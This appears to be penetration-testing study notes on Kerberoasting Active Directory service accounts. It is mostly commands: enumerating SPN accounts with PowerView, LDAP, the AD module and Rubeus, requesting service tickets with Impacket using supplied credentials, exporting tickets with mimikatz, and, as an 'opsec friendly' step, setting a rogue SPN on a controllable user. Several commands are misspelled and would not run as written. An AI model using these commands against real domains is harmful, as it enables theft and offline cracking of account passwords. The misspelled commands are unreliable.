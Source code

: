 #powerview #powershell #ldap #rubeus #mimikatz #impacket 
- ST can be requested by any user for any service if it's [SPN](Active%20Directory/AD%20Concepts/Services#SPN) is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast involves service running under regular user accounts. We can request STs for the services and crack password locally.
We can query for users with SPNs using
- Powerview
```powershell
Get-NetUser -SPN
```
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT (Active Directory module)
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrinicipalName
```
- Rubeus
```powershell
# list kerberos stats
.\Rubeus.exe kerberoast /stats

# Look of kerberoastable account that only supports RC4_HMAC
.\Rubues.exe kerberoast /stat /rc4opsec
```
### Requesting STs
- Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py mydomain.local/a.drdragon:Password!! -dc-ip <ip> -outputfile kerberoast.hash
```
- Requesting a TGS using powrshell
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL/mssqldomain.mydomain.local"
# This will add the kerberos key in memeory, and can be verified with klist
klist
# The key can be extracted with mimikatz
kerberos::list /export
```
- Powerview
```powershell
Request-SPNTicket
```
- Rubeus
```powershell
.\Rubeus kerberoast /nowrap [/user:<username>] /simple

# for rc4_hmac account
.\Rubeus kerberoast /nowrap [/user:<username>] /simple /rc4opsec
```
---
If we have `GenericAll` or `GenericWrite` over a user, we can set a random SPN for that user, and request ST for it. This is opsec friendly as resetting a user password is noisy. SPN for a user can be set using (SPN should be unique for the forest): 
```powershell
# Powerview
Set-DomainOjbect -Identity support30user -Set @{serviceprincipalname = 'dcorp/whatever'}

# Ad module
Set-ADUser -Identity support30user -ServicePrincipalNames @{Add='dcorp/whatever'}
```